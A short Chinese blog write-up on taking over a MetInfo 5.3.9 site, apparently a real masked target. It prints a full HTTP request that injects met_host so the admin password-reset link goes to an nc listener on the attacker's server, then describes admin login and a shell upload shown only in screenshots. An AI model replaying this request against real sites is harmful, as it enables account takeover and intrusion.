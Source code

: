 ```yaml
---
title: MetInfos实战
date: 2019-04-10 23:11:52
tags: [CMS]
categories: [CMS,渗透]
---
```


发现目标是**MetInfo 5.3.9** ，结合任意账户密码重置登录后台Getshell。

![001](/img/cms/MetInfo/Getshell/1.png)

在忘记密码处抓包，添加met_fd_port和met_host,met_host是服务器ip地址。先别忙发送。

![002](/img/cms/MetInfo/Getshell/2.png)

数据包如下。

```
POST /admin/admin/getpassword.php HTTP/1.1
Host: ***.***.***.***
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://***.***.***.***/admin/admin/getpassword.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Connection: close
Upgrade-Insecure-Requests: 1

action=next2&abt_type=2&admin_mobile=admin&submit=%E4%B8%8B%E4%B8%80%E6%AD%A5&met_fd_port=12345&met_host=***.***.***.***:8080

```



在服务器上用nc监听8080端口后Burp发包。

![3](/img/cms/MetInfo/Getshell/3.png)

发包后服务器能够接收到重置密码的链接。

![004](/img/cms/MetInfo/Getshell/4.png)

使用链接重置密码，登录后台。

![005](/img/cms/MetInfo/Getshell/5.png)

登录后台。

![006](/img/cms/MetInfo/Getshell/6.png)

上传网站图标

![007](/img/cms/MetInfo/Getshell/7.png)

构造exp生成shell。

![008](/img/cms/MetInfo/Getshell/8.png)

